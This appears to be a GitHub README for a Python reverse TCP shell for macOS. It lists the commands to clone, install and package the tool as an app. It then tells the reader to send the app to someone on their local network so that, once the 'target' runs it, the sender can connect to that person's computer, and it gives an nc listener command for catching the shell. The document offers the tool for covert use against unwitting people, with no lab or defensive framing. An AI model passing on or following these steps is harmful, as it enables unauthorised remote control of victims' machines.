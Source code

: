 # Reverse-TCP-Shell
Local Area Reverse TCP Shell Using Python For Mac

$ git clone https://github.com/neaderlord/Reverse-TCP-Shell-For-Mac

$ cd Reverse-TCP-Shell-For-Mac

$ pip3 install -r requirements.txt

$ python3 setup.py py2app -A

Send the file to someone in your local area when the target execute the file you can connect the targets PC.

(Remember to open a listener by nc -lvnp "your_port")
